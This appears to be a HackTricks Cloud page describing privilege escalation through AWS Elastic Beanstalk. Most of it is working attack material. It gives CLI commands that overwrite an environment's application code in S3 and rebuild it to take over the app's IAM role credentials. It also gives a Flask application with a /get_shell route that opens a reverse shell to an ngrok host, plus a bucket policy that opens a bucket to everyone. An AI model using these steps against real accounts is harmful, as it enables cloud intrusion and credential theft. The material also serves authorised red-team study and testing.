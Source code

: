 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

More **info about Elastic Beanstalk** in:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
In order to perform sensitive actions in Beanstalk you will need to have a **lot of sensitive permissions in a lot of different services**. You can check for example the permissions given to **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 write permissions & many others

With **write permissions over the S3 bucket** containing the **code** of the environment and permissions to **rebuild** the application (it's needed `elasticbeanstalk:RebuildEnvironment` and a few more related to `S3` , `EC2` and `Cloudformation`), you can **modify** the **code**, **rebuild** the app and the next time you access the app it will **execute your new code**, allowing the attacker to compromise the application and the IAM role credentials of it.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, and more...

The mentioned plus several **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** and **`elasticloadbalancing`** permissions are the necessary to create a raw Elastic Beanstalk scenario from scratch.

* Create an AWS Elastic Beanstalk application:

```bash
aws elasticbeanstalk create-application --application-name MyApp
```

* Create an AWS Elastic Beanstalk environment ([**supported platforms**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

If an environment is already created and you **don't want to create a new one**, you could just **update** the existent one.

* Package your application code and dependencies into a ZIP file:

```python
zip -r MyApp.zip .
```

* Upload the ZIP file to an S3 bucket:

```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```

* Create an AWS Elastic Beanstalk application version:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Deploy the application version to your AWS Elastic Beanstalk environment:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

First of all you need to create a **legit Beanstalk environment** with the **code** you would like to run in the **victim** following the **previous steps**. Potentially a simple **zip** containing these **2 files**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
        return jsonify('404')

@application.route("/")
def index():
        return jsonify('Welcome!')


@application.route("/get_shell")
def search():
        host=request.args.get('host')
        port=request.args.get('port')
        if host and port:
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((host,int(port)))
            os.dup2(s.fileno(),0)
            os.dup2(s.fileno(),1)
            os.dup2(s.fileno(),2)
            p=subprocess.call(["/bin/sh","-i"])
        return jsonify('done')

if __name__=="__main__":
    application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Once you have **your own Beanstalk env running** your rev shell, it's time to **migrate** it to the **victims** env. To so so you need to **update the Bucket Policy** of your beanstalk S3 bucket so the **victim can access it** (Note that this will **open** the Bucket to **EVERYONE**):

```json
{
    "Version": "2008-10-17",
    "Statement": [
        {
            "Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "s3:ListBucket",
                "s3:ListBucketVersions",
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:*"
            ],
            "Resource": [
                "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
                "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
            ]
        },
        {
            "Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
            "Effect": "Deny",
            "Principal": {
                "AWS": "*"
            },
            "Action": "s3:DeleteBucket",
            "Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
        }
    ]
}
```

{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528
```
{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
